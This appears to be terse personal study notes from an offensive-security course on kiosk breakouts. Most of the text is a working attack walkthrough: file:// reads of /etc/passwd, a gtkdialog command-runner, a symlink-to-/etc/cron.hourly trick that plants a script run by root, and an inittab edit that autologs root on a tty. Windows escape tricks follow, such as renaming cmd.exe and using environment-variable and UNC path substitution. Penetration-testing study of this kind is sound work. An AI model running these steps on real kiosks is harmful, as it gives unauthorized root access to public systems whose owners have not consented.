



11- kiosk breakouts
xtigervncviewer
Intro
- interfaces with limited functionalities
Bypass KIOSK BASICS (vncviewer)
- f8 : full screen
- • • Mouse
- alt+tab
- right click
- shift + ctrl
- keyboard
- F1 : help page (try to save something)
- ctrl+s , ctrl+o , ctrl+p
- help
- alt + left
- stickey keys
- shift 5times
- click on link and go to control pannel
- open
- browser keywords
- about:config
- about:preferences
- directory listing
- discover other schemes
- irc://myhost
- chose a gui terminal app like xterm,gnome-termlinal,konsole (less likely to be presnet)
- busybox (combines different progs into a single binary)
- // the app launches <program> irx://Myhost
- URI
- irc://myhost
- file:///etc/passwd
- smb:///
- look for GUI programs
- /bin/busybox
- other ticks
- cp cmd.exe to c:\windows\tasks and change and rename cmd.exe to msedge.exe in its folder
Use case : firefox runing
- • • irc://myhost -P "newProfile"
- firefox is run with parameters
- => escape from firefox
- look for files
- web developer => scratchpad
- Other techniques
EXploit from firefox
- file:///etc/passwd
- file:///proc/version
- /home/guest/.ssh
- downloads
- developers tool => scratchpad (text editor)
- gtkdialog build interfaces with an html style markup language
- simple cmd execution
- irc://myhost -f /home/guest/terminal.txt
emulate terminal
<window>
<vbox>
<vbox scrollable="true" width="500" height="400">
<edit>
<variable>CMDOUTPUT</variable>
<input file>/tmp/termout.txt</input>
</edit>
</vbox>
<hbox>
<text><label>Command:</label></text>
<entry><variable>CMDTORUN</variable></entry>
<button>
<label>Run!</label>
<action>$CMDTORUN > /tmp/termout.txt</action>
<action>refresh:CMDOUTPUT</action>
</button>
</hbox>
</vbox>
</window>
Root privesc
ps aux
## locate root processes that could give us root (e.g openbox : e X window manager used by the kiosk’s custom interface
find / -perm -u=s -exec ls -al {} +
openbox --replace
## terminal is stopped and restarts and bookmarks.htlm is written by root process
## backup profile folder
mv /home/guest/.mozilla/firefox/c3pp43bg.default /home/guest/.mozilla/firefox/old_prof
## create a symlink to /usr/bin
ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default
## This is a huge breakthrough. We can write files to privileged directories!; yet wen't rename the file because of folder permissions
openbox --replace
# write a testscript.sh using scratchpad
echo "#!/bin/bash" > /usr/bin/bookmarks.html
echo "gtkdialog -f /home/guest/terminal.txt" >> /usr/bin/bookmarks.html
## run the script
###With the script in place, we need to get the system to run it as a privileged user. Normally, we
###could leverage several privilege escalation techniques.
### example /etc/profile.d (difficult because need sh); /etc/cron.hourly
rm /home/guest/.mozilla/firefox/c3pp43bg.default
ln -s /etc/cron.hourly /home/guest/.mozilla/firefox/c3pp43bg.default
openbox --replace
chmod +x /etc/cron.hourly/bookmarks.html
ls -la /bin/busybox
cp /bin/busybox /home/guest/busybox
## wait the exploit on the top of the hour
ls -la /home/guest


Post exploit
# create a runterminal.sh
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
## get root pseudo terminal
/home/guest/busybox sh /home/guest/runterminal.sh
## we can try sending keys to programmaticlay open terminals
xdotool key Ctrl+Alt+F3
## enable vtswitching
cat /etc/X11/xorg.conf.d/10-xorg.conf
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
openbox --replace
## copy tty config
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
## add this line in the console tty config
c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux
## copy the file back
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
## reload the settings
## create restartvnc.sh // kill vnc and start terminal
#!/bin/bash
killall x11vnc
x11vnc -rawfb vt3
/sbin/init q
## reconnect and we'rebpresented with tr

windows kiosks tricks
•If a browser-based kiosk accepts text input, we could substitute environment variables for full file paths (bypass file based access restrictions)
- %APPDATA%
| env | Variable |
|---|---|
| %ALLUSERSPROFILE% | C:\Documents and Settings\All Users |
| %APPDATA% | C:\Documents and Settings\Username\Application Data |
| %COMMONPROGRAMFILES% | C:\Program Files\Common Files |
| %COMMONPROGRAMFILES(x86)% | C:\Program Files (x86)\Common Files |
| %COMSPEC% | C:\Windows\System32\cmd.exe |
| %HOMEDRIVE% %SystemDrive% | c:\ |
| %HOMEPATH% | C:\Documents and Settings\Username |
| %PROGRAMFILES% | C:\Program Files |
| %WINDIR% %SystemRoot% | C:\Windows |
| %TEMP% and %TMP% | C:\Documents and Settings\Username\Local Settings\Temp |
- replace c:\ with \\127.0.0.1\C$\
- shortcuts in file browsers
| command | action |
|---|---|
| shell:System | Opens the system folder |
| shell:Common | menu option |
| shell:Downloads | user downloads |
| shell:MyComputerFolder | Opens the “This PC” window, showing devices and drives for the shell:MyComputerFolder system |
- if we can get access to a help dialog, we may be able to search for specific utilities such as Notepad, cmd.exe, or PowerShell.
- If we are able to browse the filesystem, such as through a file open or save dialog, but right-
clicking is disabled, it may be possible to start an application by dragging and dropping files onto
it. Good candidates for this are cmd.exe and powershell.exe, if they are available on the kiosk, as
they can provide a system shell. If the filetype being dragged is associated with the program, the
program will likely open it.

- print dialog
- shortcuts : ctrl+alt+del (lock screen) ctrl+alt+esc (task maanager)